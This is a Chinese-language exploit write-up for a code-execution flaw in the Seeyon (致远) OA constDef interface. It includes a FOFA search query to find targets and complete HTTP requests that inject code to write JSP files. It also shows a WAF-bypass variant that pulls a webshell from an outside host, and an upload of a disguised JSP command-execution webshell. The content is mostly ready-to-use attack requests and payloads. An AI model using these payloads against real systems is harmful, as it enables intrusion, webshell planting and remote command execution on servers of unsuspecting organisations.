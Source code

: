 # 致远OA系统constDef接口存在代码执行漏洞

## fofa

```yaml
app="致远互联-OA"
```

## poc

首先新建一个常量，constKey(常量名)为demo。

```yaml
/seeyon/constDef.do?method=newConstDef&constKey=demo&constDefine=1&constDescription=123&constType=4
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407222340048.png)

可以通过如下接口查看常量是否新建完成。

```java
/seeyon/ajax.do?method=ajaxAction&managerName=constDefManager&rnd=123123123&managerMethod=listPage&arguments=%5B%7B%22page%22%3A1%2C%22size%22%3A20%7D%2C%7B%7D%5D
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407222340957.png)

再新建一个常量，constType值为4表示常量类型为宏替换，在constDefine(常量定义)中引用常量demo，构造闭合造成代码执行。

```yaml
/seeyon/constDef.do?method=newConstDef&constKey=asdasd&constDefine=$demo%20%22;new%20File(%22../webapps/ROOT/1111.jsp%22).write(new%20String(Base64.getDecoder().decode(%22PCVvdXQucHJpbnRsbigiMjEzMjEzIik7JT4=%22)));%22&constDescription=123&constType=4
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407222341930.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407222342108.png)



## 出网利用写webshell

**Step1：**

出网情况直接通过远程下载可以比较有效**Bypass Waf**方法。

```java
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 545

method=newConstDef&constKey=uddd1&constDefine=new+File('../webapps/ROOT/test.jspx')+<<+new+URL('http%3a//192.168.43.81%3a18080/123.txt').text&constType=2
```

![image-20240723205434737](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232054812.png)

*** Step2：***

引用`Step1：`定义常量，构造闭合造成代码执行。

```java
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

method=newConstDef&constKey=runtime1c2345accaccc&constDefine=evaluate+$uddd1&constType=3
```

![image-20240723205550158](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232055225.png)

**Step3：**

通过`listConstDef`方法触发漏洞

```javascript
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

method=listConstDef&page=1&rows=100
```

![image-20240723205641905](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232056968.png)



## 不出网情况

 ***Step1：\***

把文件进行落地。

上传后的路径：**/base/upload/年/月/日/返回的id**

例如：**/base/upload/2024/07/22/2101525989813472287**

```bash
POST /seeyon/fileUpload.do?method=processUpload&maxSize= HTTP/1.1
Host: 172.16.135.236:8089
Cookie: JSESSIONID=0D3102C6F8445B2207B3A29DF9C4BAE6
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1416682316313
Content-Length: 1172

-----------------------------1416682316313
Content-Disposition: form-data; name="type"


-----------------------------1416682316313
Content-Disposition: form-data; name="extensions"


-----------------------------1416682316313
Content-Disposition: form-data; name="applicationCategory"


-----------------------------1416682316313
Content-Disposition: form-data; name="destDirectory"


-----------------------------1416682316313
Content-Disposition: form-data; name="destFilename"


-----------------------------1416682316313
Content-Disposition: form-data; name="maxSize"


-----------------------------1416682316313
Content-Disposition: form-data; name="isEncrypt"

false
-----------------------------1416682316313
Content-Disposition: form-data; name="file1"; filename="tets.zip"
Content-Type: Image/x-zip-compressed

<% Runtime.getRuntime().exec(request.getParameter("a"));%>
-----------------------------1416682316313--
```

![image-20240723205817934](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232058005.png)

Step2

通过读取本地文件，进行写入文件可以完美解决写入文件长度的长度

```bash
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 545

method=newConstDef&constKey=u6da&constDefine=new+File('../webapps/ROOT/gsl.jsp')+<<+new+File('../../base/upload/2024/06/06/2101525989813472287').text&constType=2
```

后续两个步骤触发漏洞跟之前的**Step2**、**Step3**一样。

## 漏洞来源

- https://blog.csdn.net/LiangYueSec/article/details/140608564
- https://www.t00ls.com/thread-72119-1-1.html